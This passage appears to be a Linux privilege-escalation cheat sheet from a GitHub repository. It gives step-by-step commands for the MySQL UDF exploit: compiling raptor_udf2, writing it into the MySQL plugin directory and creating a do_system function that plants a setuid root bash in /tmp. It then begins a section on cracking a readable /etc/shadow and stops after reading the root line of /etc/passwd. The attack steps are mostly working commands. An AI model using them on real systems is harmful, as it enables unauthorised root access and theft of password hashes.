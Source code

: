 ***`Services Exploit`***

[+] Service: Mysql <br>
[+] Technique: UDF <br>
[+] Exploit : [MySQL 4.x/5.0 (Linux) - User-Defined Function (UDF) Dynamic Library (2) - Linux local Exploit (exploit-db.com)](https://www.exploit-db.com/exploits/1518)

[+] Steps<br>
-   compile Exploit source code
```bash
gcc -g -c raptor_udf2.c -fPIC  
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

- connect to mysql
```bash
mysql -uroot -p
```

- execute query in mysql  after select database (mysql)
```bash
use mysql;  
create table foo(line blob);  
insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));  
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';  
create function do_system returns integer soname 'raptor_udf2.so';
```

- ensure function its create 

```bash
select * from mysql.func

```

- execute shell command through mysql 
```bash
select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');`
```



***`Weak File Permissions - Readable /etc/shadow`***

[+] Technique: Brute-Force shadow password<br>
[+] Shadow it's writable/Readable<br>
[+] Link: [Cracking /etc/shadow with John | - erev0s.com](https://erev0s.com/blog/cracking-etcshadow-john/)<br>
[+] Steps<br>

- extract root section from /etc/password and /etc/shadow

**/etc/passwd**

```bash
cat /etc/passwd|grep root
root:x:0:0:root:/root:/bin/bash

```
